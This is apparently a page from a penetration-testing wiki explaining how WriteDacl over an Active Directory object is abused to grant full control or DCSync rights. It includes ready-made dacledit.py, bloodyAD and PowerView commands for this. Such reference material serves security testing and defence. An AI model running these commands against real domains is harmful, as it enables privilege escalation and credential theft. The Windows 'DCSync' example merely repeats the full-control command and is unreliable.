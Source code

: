 This abuse can be carried out when controlling an object that has `WriteDacl` over another object.

The attacker can write a new ACE to the target object’s DACL (Discretionary Access Control List). This can give the attacker full control of the target object.

Instead of giving full control, the same process can be applied to allow an object to DCSync by adding two ACEs with specific Extended Rights (`DS-Replication-Get-Changes and DS-Replication-Get-Changes-All`). Giving full control leads to the same thing since `GenericAll` includes all `ExtendedRights`, hence the two extended rights needed for DCSync to work.
!!! note
    **ACE inheritance**
    If attacker can write an ACE (WriteDacl) for a container or organisational unit (OU), if inheritance flags are added (0x01+ 0x02) to the ACE, and inheritance is enabled for an object in that container/OU, the ACE will be applied to it. By default, all the objects with AdminCount=0 will inherit ACEs from their parent container/OU.

    Impacket's dacledit (Python) can be used with the -inheritance flag for that purpose

    **adminCount=1 (gPLink spoofing)**  

    In April 2024, Synacktiv explained that if `GenericAll`, `GenericWrite` or `Manage Group Policy Links` privileges are available against an Organisational Unit (OU), then it's possible to compromise its child users and computers with `adminCount=1` through "gPLink spoofing".

    This can be performed with [OUned.py](https://github.com/synacktiv/OUned).
=== "UNIX-like"
    From UNIX-like systems, this can be done with Impacket's dacledit.py (Python).
    ```bash
    # Give full control
    dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"

    # Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
    dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
    ```
    To enable inheritance, the -inheritance switch can be added to the command. Then it is possible to find interesting targets with AdminCount=0in BloodHound for example, by looking at the object attributes.
    ```bash
    # Give full control on the Users container with inheritance to the child object
    dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=Users,DC=domain,DC=local' -inheritance "$DOMAIN"/"$USER":"$PASSWORD"
    ```
    Alternatively, it can be achieved using bloodyAD
    ```bash
    # Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
    ```
=== "Windows"
    From a Windows system, this can be achieved with Add-DomainObjectAcl (PowerView module).
    ```bash
    # Give full control
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"

    # Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object"
    ```